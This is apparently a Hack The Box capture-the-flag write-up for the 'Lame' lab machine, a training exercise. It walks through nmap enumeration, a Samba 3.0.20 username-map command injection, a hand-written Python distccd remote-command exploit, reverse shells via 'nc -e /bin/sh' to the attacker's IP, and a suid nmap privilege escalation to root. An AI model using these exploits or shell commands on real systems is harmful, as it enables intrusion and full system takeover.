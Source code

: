 ```yaml
---
layout: single_c
title:  "Hack The Box - Lame Writeup"
date:   2020-06-26 10:43:16 +0530
categories: HTB
tags: OSCP
toc: true
classes: wide
---
```

# Hack The Box - Lame
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/lame/lame.png){: .align-center}


## Enumeration

Start with an `nmap` scan.

#### Nmap
```bash
Nmap scan report for lame.com (10.10.10.3)
Host is up, received user-set (0.26s latency).
Scanned at 2020-06-21 02:01:21 EDT for 582s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 02:11:03 2020 -- 1 IP address (1 host up) scanned in 583.83 seconds
```

We have quite a few attack vectors.

### vsftpd 2.3.4

```bash
kali@kali:~$ searchsploit vsftpd 2.3.4
kali@kali:~$ searchsploit vsftpd 2.3.4 | cut -b -100
----------------------------------------------------------------------------------------------------
 Exploit Title                                                                                      
                                                                                                    
----------------------------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            
----------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

We have a back door in this version of `ftp` which can be triggered by sending `:)` at the end of username. But this exploit failed and did not give a shell.  

# Method 1 (Samba 3.0.20 Without Metasploit)

#### smbmap
```bash
kali@kali:~/Desktop/htb/lame$ smbmap -H lame.com
[+] Finding open SMB ports....
[+] User SMB session established on lame.com...
[+] IP: lame.com:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbmap` shows that the share `/tmp` is accessible. I couldn't find anything interesting in there. We can also see that the `samba` version is `3.0.20`.

#### Searchsploit
```bash
kali@kali:~$ searchsploit samba 3.0.20 | cut -b -150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    
Samba < 3.0.20 - Remote Heap Overflow                                                                               
------------------------------------------------------------------------------------------------------------------------------------------------------
```

There is a remote code execution vulnerability in this version of `samba`. And there is an msf exploit for this.

### Understanding the metasploit code

Going through the short exploit, we can check the exploit function to see how it works.

```perl
def exploit

		connect
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

The payload is passed in [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)(which is used to execute commands) within the `username` with the added `nohup` command which  executes another command, and instructs the system to continue running it even if the session is disconnected. But for some reason it was not working with `smbclient`. The username was getting capitalized.

We can overcome this by first connecting to `smb` and then passing the `username` in the `logon` command. If you are using kali 2020, you will have to pass the `--option='client min protocol=NT1' ` to `smbclient`

```bash
kali@kali:~/Desktop/htb/lame$ sudo smbclient \\\\lame.com\\tmp --option='client min protocol=NT1'                    
Enter WORKGROUP\root's password:                                                                                     
Anonymous login successful                                                                                          
Try "help" to get a list of possible commands.                                                                       
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.34 1337`"                                                            
Password:    
```

Wait for a connection using `nc`

```bash
kali@kali:~$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 34789
id
uid=0(root) gid=0(root)
```

We are root!

I also found a [python script](https://github.com/amriunix/CVE-2007-2447) for exploiting this. We can also achieve root using this script.
# Method 2 (DistCC Daemon RCE)

There is a `distcc` daemon running on port `3632`. There is a `metasploit` module and `nmap` script available for this. 
```bash
kali@kali:~/Desktop/htb/lame$ searchsploit distcc | cut -b -150
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
DistCC Daemon - Command Execution (Metasploit)                              | exploits/multiple/remote/9915.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Looking at the nmap script we can see how the script creates the payload

```bash
 local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }
```
The length of the command is formated to 8 characters and added before the command. 

With the help of this [article](https://vulners.com/openvas/OPENVAS:1361412562310103553) wrote a python script to exploit it. The output contains some output of the `distcc` daemon. We have to add a separator before and after our command to strip out the output. 

```python
import socket
while True:
        cmd = input("cmd>")
        # Separator to pull out the output
        sep = "sep123"
        new_cmd = f"echo -n {sep};{cmd};echo -n {sep}"
        payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(new_cmd):8x}{new_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A"""
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('lame.com', 3632))
        s.sendall(payload.encode())
        print(s.recv(1000).decode().split(sep)[1].strip())
```

## User Shell

Start a `nc` listener to receive the shell

```bash
kali@kali:~/Desktop/htb/lame$ python3 exp.py
cmd>id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cmd>ls
5194.jsvc_up
distcc_d115ebee.stdout
distcc_d13febee.stderr
distccd_d6bdebee.o
distccd_d6c4ebee.i
cmd>nc -e /bin/sh 10.10.14.34 1337
```

```bash
kali@kali:~/Desktop/htb/lame$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 38311
python -c 'import pty;pty.spawn("bash")'
aemon@lame:/tmp$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Root shell

Going through the system we can see that we have an older version of `nmap` binary with `suid` bit set. We can use this get shell.

```bash
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# cat /root/root.txt
cat /root/root.txt
92caac**********************
```

And we are root.